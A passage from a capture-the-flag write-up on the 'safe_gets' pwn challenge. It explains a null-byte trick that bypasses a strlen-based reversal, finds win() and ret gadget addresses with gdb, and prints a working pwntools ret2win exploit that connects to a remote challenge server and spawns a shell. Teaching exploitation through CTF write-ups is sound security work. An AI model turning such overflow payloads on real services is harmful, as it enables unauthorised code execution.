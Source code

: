 By placing the null byte at the beginning, the length reported by `strlen()` becomes `0` — so no **reversal occurs**. The rest of the payload *(emojis + padding + addresses)* remains untouched in memory.

### Finding the adress of win()

We’re almost there. All we need now are two **key addresses**:   
- The **address of the `win()`** function (our target).
- The **address of a `ret`** instruction (used for alignment).

Since the binary is **not stripped** and **PIE is disabled**, addresses remain constant, and we can easily retrieve them using `gdb`.

Let’s start by getting the **address of `win()`**:

![Getting the adress of the win function using GDB](/assets/img/l3akctf/pwn/safe_gets/getting_win.gif){: w="350"}

So `win()` is at `0x401262`. Next, we search for a **`ret` instruction**. These are usually found at the end of functions — so let’s check inside `main()`:

![Getting the adress of the ret instruction inside the main function using GDB](/assets/img/l3akctf/pwn/safe_gets/getting_ret.gif){: w="500"}

We found a `ret` at `0x401261`. Now that we have both addresses, we’re ready to build the **final payload** and **write the exploit script** using `pwntools`.

<details class="my_details" markdown="1"><summary> Why do we need a ret ?</summary></details>

### Final Exploit

```py
from pwn import *

# Local version
# elf = context.binary = ELF("./chall")
# p = process()

# Remote version
p = remote("34.45.81.67", 16002)
p.recvuntil(b't (max 255 bytes):')

ret_address = p64(0x401261)
win_address = p64(0x401262)

payload = b"\x00" + "🗿".encode() * 69 + b"A" * 3 + ret_address + win_address

p.sendline(payload)
p.interactive()
``` 

When you launch the **exploit**, a shell is spawned. From there, you can simply list the contents of the directory and retrieve the flag file.

![Launching the exploit and obtaining the flag](/assets/img/l3akctf/pwn/safe_gets/getting_flag.gif){: w="400"}

## Conclusion
